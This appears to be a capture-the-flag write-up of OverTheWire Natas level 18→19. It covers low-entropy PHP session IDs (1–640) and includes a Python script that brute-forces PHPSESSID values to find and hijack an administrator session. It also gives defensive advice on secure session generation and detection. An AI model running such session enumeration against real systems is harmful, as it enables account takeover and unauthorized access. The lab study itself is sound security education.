



# Natas Level 18 → 19

**Vulnerability:** Session ID Brute Force / Session Hijacking
**Difficulty:** Hard
**Tools Used:** Firefox Developer Tools, Browser Cookie Storage Inspector, Python 3, requests
**OWASP Category:** A07:2021 – Identification and Authentication Failures
**Attack Class:** Session Management Weakness

---

### What the level gives you

The application presents a login page and stores authentication state using PHP sessions. Source code is provided and reveals how session identifiers are generated and validated.

The goal is to obtain administrator access and retrieve the credentials for the next level.

---

### Vulnerability theory

Session management is responsible for maintaining authenticated state between HTTP requests. A secure application must generate session identifiers with sufficient entropy so that attackers cannot predict or enumerate active sessions.

In this level, session identifiers are generated from a very small numeric range. Rather than using a cryptographically secure random value, the application creates session IDs between 1 and 640. This drastically reduces the search space and makes brute-force enumeration practical.

The attack primitive provided by this weakness is session hijacking. If an attacker can discover a valid administrator session identifier, they can impersonate the administrator without needing credentials.

The vulnerability exists because authorization depends entirely on possession of a predictable session identifier rather than a high-entropy session token.

---

### Source code analysis

Relevant portions of the provided source code:

```php
$maxid = 640;                 // Maximum session ID value

function createID($user) {
    global $maxid;
    return rand(1, $maxid);   // Session IDs only range from 1-640
}

function print_credentials() {
    if($_SESSION["admin"] == 1) {
        print "You are an admin.";
    }
}
```

Analysis:

```php
$maxid = 640;
```

The application limits the session space to only 640 possible values.

---

```php
return rand(1, $maxid);
```

The session identifier is generated using a small numeric range instead of a high-entropy random token.

---

```php
if($_SESSION["admin"] == 1)
```

Administrator privileges are tied directly to session state. Finding an active administrator session automatically grants access.

The developer assumes the session identifier itself is difficult to obtain. Because the identifier space is tiny, that assumption is incorrect.

---

### Approach

My first step was reviewing the source code to understand how authentication worked. The most important discovery was that session IDs were generated between 1 and 640.

I logged in using arbitrary credentials and inspected the browser cookies. The application issued a numeric PHPSESSID value, confirming that session identifiers matched the implementation shown in the source code.

At this point I considered manually changing the cookie value. While this verified that the application trusted user-supplied session identifiers, manually testing hundreds of possibilities would be inefficient.

Because the total search space contained only 640 possible values, automation became the obvious solution. Instead of attacking authentication, I targeted session management by enumerating every possible session identifier until an administrator session was discovered.

---

### Exploitation

Stage 1 – Observe the session cookie

After logging in as a regular user, the application issued a cookie similar to:

```text
PHPSESSID=619
```

This matched the numeric session model shown in the source code.

---

Stage 2 – Enumerate session identifiers

```python
#!/usr/bin/env python3
"""
Natas Level 18 exploit
Technique: Session ID brute force
"""

import requests

URL = "http://natas18.natas.labs.overthewire.org/"
AUTH = ("natas18", "<NATAS18_PASSWORD>")

for sid in range(1, 641):

    r = requests.get(
        URL,
        auth=AUTH,
        cookies={"PHPSESSID": str(sid)}
    )

    print(f"Testing SID {sid}")

    if "You are an admin" in r.text:
        print(f"\n[+] Admin Session Found: {sid}")
        break
```

Script analysis:

```python
for sid in range(1, 641):
```

Iterates through every possible session identifier.

---

```python
cookies={"PHPSESSID": str(sid)}
```

Forces the application to use the candidate session ID.

---

```python
if "You are an admin" in r.text:
```

Detects when an administrator session has been located.

---

The script successfully identified:

```text
[+] Admin Session Found: 119
```

---

Stage 3 – Hijack the administrator session

The browser cookie was updated to:

```text
PHPSESSID=119
```

Refreshing the page granted administrator access and revealed the credentials for the next level.

---

### Screenshot

#### Source code showing predictable session generation



#### Administrator session discovered and credentials retrieved




---

### Real-world relevance

This vulnerability falls under OWASP A07:2021 – Identification and Authentication Failures. Predictable or low-entropy session identifiers have historically enabled attackers to hijack authenticated user sessions without knowing valid credentials.

During professional web application assessments, testers evaluate session entropy, token predictability, and session fixation risks. Weak session generation remains a recurring issue in custom authentication systems and legacy applications.

At scale, session enumeration attempts can appear as repeated requests with rapidly changing session identifiers and may be detected through anomaly monitoring and authentication telemetry.

---

### Defender's perspective

The primary fix is to generate session identifiers using a cryptographically secure random number generator with sufficient entropy. Modern frameworks already provide secure session management and should be used instead of custom implementations.

Applications should regenerate session identifiers after authentication and invalidate inactive sessions. Web application firewalls can detect large-scale session enumeration attempts, while SOC teams can monitor for abnormal patterns involving rapidly changing session cookies.

The safest approach is to avoid custom session logic entirely and rely on established framework session mechanisms.

---

### What I'd do differently

Manual cookie modification was useful for validation, but I would move directly to automation after identifying the 1–640 session range. Enumerating the entire keyspace programmatically is significantly faster and produces reproducible results.